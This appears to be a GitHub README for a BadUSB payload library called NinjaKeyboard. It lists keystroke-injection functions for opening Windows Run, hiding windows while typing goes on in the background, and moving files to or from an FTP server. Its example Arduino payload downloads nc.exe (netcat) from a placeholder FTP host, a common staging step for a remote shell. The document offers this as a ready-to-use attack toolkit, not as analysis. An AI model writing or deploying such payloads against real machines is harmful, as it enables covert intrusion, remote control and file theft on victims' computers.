 this source of payload template is from EthicNinja
so Megumi San is an innovative payload project for Bad USB Families :)

NinjaKeyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>

Example Payload
----
```c
#include <NinjaKeyboard.h>

EthicNinjaKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}
